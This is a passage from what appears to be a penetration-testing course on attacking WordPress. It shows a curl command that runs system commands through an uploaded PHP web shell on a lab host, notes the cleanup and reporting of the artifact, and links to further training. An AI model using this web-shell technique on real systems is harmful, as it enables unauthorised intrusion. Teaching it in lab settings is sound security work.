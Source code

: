 The exploit as written may fail, but we can use `cURL` to execute commands using the uploaded web shell. We just need to append `?cmd=` after the `.php` extension to run commands which we can see in the exploit script.

```shell-session
$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

In this example, we would want to make sure to clean up the `uthsdkbywoxeebg-1629904090.8191.php` file and once again list it as a testing artifact in the appendices of our report.

***

## Moving On

As we have seen from the last two sections, WordPress presents a vast attack surface. During our careers as penetration testers, we will almost definitely encounter WordPress many times. We must have the skills to quickly footprint a WordPress installation and perform thorough manual and tool-based enumeration to uncover high-risk misconfigurations and vulnerabilities. If these sections on WordPress were interesting, check out the [Attacking WordPress module](https://academy.hackthebox.com/course/preview/hacking-wordpress) for more practice.
